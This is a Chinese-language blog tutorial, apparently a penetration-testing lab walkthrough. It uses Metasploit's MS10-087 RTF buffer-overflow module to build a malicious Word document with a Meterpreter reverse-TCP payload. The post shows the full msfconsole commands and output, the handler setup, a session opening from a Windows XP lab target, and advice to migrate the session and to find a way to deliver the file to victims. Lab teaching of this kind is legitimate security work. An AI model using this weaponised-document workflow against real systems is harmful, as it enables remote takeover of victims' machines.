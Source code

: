 ```yaml
---
layout: post
category: binghe-code-hack
title: 基于Word文件格式的渗透攻击
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: 基于Word文件格式的渗透攻击
lock: need
---
```


# 基于Word文件格式的渗透攻击

攻击机： Kali 192.168.175.128

靶机 WinXP 192.168.175.130

程序 Office 2003

## 生成Word文档

```bash
msfconsole
use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
set FILENAME word.rtf
exploit
```

具体如下：

```bash
msf5 > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show options

Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.rtf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME word.rtf
FILENAME => word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit

[*] Creating 'word.rtf' file ...
[+] word.rtf stored at /root/.msf4/local/word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > 
```

可以看到，在 /root/.msf4/local/目录下生成了word.rtf文件。

## 上传文件到靶机

在实际中，我们需要想办法将文件传到靶机上，这里，我就直接拷贝到靶机了

## 实施攻击

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开Word文件

在靶机上利用Office 2003打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
